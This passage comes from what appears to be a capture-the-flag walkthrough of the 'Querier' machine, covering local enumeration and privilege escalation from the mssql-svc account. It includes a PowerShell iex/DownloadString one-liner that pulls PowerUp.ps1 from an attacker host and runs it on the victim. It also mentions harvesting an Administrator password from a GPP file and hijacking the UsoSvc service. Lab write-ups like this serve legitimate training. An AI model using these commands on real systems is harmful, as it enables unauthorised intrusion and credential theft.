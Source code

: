 ### Querier Local Enumeration

Now it's time to enumerate the system using the `mssql-svc` account.  Download
the `PowerUp.ps1` script and add the `Invoke-AllChecks` to the end
of the file:

```bash
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/dev/PowerUp/PowerUp.ps1
echo Invoke-AllChecks >> PowerUp.ps1
```

<br>

Download to the victim host and run with:

```powershell
iex(new-object net.webclient).DownloadString('http://10.10.16.95:8000/PowerUp.ps1')
```

![](images/Emulating%20Threat%20Methodologies%202/image073.png)<br><br>

A GPP file that contains credentials is discovered:

![](images/Emulating%20Threat%20Methodologies%202/image071.png)<br><br>

Now you have the password for the Administrator account.  Another way is to exploit
the `UsoSvc` service by modifying its binary:

![](images/Emulating%20Threat%20Methodologies%202/image074.png)<br><br>
